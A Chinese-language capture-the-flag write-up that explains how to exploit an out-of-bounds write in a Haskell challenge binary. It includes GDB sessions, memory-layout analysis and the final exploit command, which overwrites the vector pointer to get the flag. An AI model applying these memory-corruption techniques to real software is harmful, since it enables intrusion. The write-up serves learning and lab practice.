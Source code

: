 ## 一石二鸟

完全不会 Haskell。程序功能看代码猜一下就是了，大概功能是：

1. 程序创建了一个长度 100 的数组（Vector），数组值初始化成 0；
2. 用户输入一个 `index` 和一个 `value`，然后  Vector 中对应 `index` 的元素会被修改成 `value`；
3. 统计数组里有几个不是 0 的值，如果多于 1 个就输出 flag。

那个 `V.unsafeWrite` 明显就是要利用了后门。随便试一个越界的 index，触发 segfault，说明程序真的在越界写内存：

```
$ ./runme 1000000000 1
zsh: segmentation fault (core dumped)  ./runme 1000000000 1
```

上 GDB，触发 segfault，就能定位到写内存的指令：

```
(gdb) run 10000000 1
.......
Program received signal SIGSEGV, Segmentation fault.
0x00000000004094fc in ?? ()
(gdb) display/i $pc
1: x/i $pc
=> 0x4094fc:    mov    %rax,0x10(%rbx,%rcx,8)
(gdb) x/4gx $rbx
0x4200105758:   0x00000000005852b8      0x0000000000000320
0x4200105768:   0x0000000000000000      0x0000000000000000
```

这里观察一下内存 layout，能知道：

- `%rbx = 0x4200105758` 是 Vector 数据结构存放的位置，这个位置头 8 byte 有个不知道干啥的值；
- `%rbx + 8` 这里这个 0x320（100）应该是数组长度；
- `%rbx + 0x10` 这里开始是数组的元素，并且从寻址方式看，数组元素是连续存储的。

加 watchpoint，看看哪里会读取写入的元素：

```
(gdb) b *0x4094fc
(gdb) run 10 100
(gdb) rwatch *0x42001057b8
Hardware read watchpoint 2: *0x42001057b8
(gdb) c
Hardware read watchpoint 2: *0x42001057b8
│    0x4095eb        cmpq   $0x0,0x10(%rax,%rcx,8)
│  > 0x4095f1        jne    0x409583
```

0x4095eb 这个 cmp 指令明显就是在比较元素是否为 0 了。

接下来 `stepi ` 一步步跑，找到计数器 +1 的指令，这里可以人工改一下值看看是不是真的能拿到 flag：

```
│    0x4095ca        mov    0x48(%rsp),%rax
│  > 0x4095cf        inc    %rax
(gdb) set $rax=2
(gdb) c
Continuing.
count: 2
runme: flag.txt: openFile: does not exist (No such file or directory)
```

到这里程序运行流程基本是搞清楚了，没什么复杂的。

接下来我首先想到的思路是覆盖掉计数器，让它一开始不为0。然而试了试我很快发现这行不通，因为这个计数器是栈上分配的（上面 `0x4095ca` 指令的操作数 `0x48(%rsp)`），一来内核 ASLR 会随机化栈的位置没法定位，二来栈空间的初始化后面肯定会重新做，提前填了非0值也没用。

后来又想到覆盖掉 Vector 长度，使得循环跑越界，读到其他内存位置的非0值。然而会发现 100 次循环这个数字是直接写在指令里的，并不能覆盖：

```
│  > 0x4095e5        cmp    $0x64,%rcx
│    0x4095e9        jge    0x409622
```

这里不知道怎么做了。于是从已知关键断点前后跑了几步 `stepi/reverse-stepi` 找线索，然后发现一个事情 —— Vector 数据结构的地址并不是写进指令的，而是从另一个内存位置读出来的。虽然我不懂 Haskell，但高级语言里这么搞层指针指向实际的数据结构也很正常吧：

```
│  > 0x4094f4        mov    0x10(%rbp),%rbx
│    0x4094f8        mov    0x8(%rbp),%rcx
│    0x4094fc        mov    %rax,0x10(%rbx,%rcx,8)
(gdb) p $rbp - 0x10                                                                         
$3 = (void *) 0x42001fcfb8
```

我们看存这个指针的内存地址和它指向的 Vector 地址貌似在同一块内存区域，应该是编译时决定的，不会受到 ASLR 等运行时保护机制影响。于是现在产生了一个新的思路，就是覆盖掉这里指向的内存地址，使其指向一个有更多非0值的位置。这样的选择很多嘛，比如我选择了原来 Vector 地址之前的一个位置 `0x4200105743`（126734 是算出来的指针位置相对于数组起点的偏移量）：

```
$ ./runme 126734 $((0x4200105743))
count: 2
runme: flag.txt: openFile: does not exist (No such file or directory)
```

远程测试时，会发现 126734 这个偏移量并不管用。试着加减几个数字，发现 126732 是管用的。尚不理解原因。zzh 说“出题人的说法是环境变量不同导致的偏移吧”，看起来出题人也不知道。
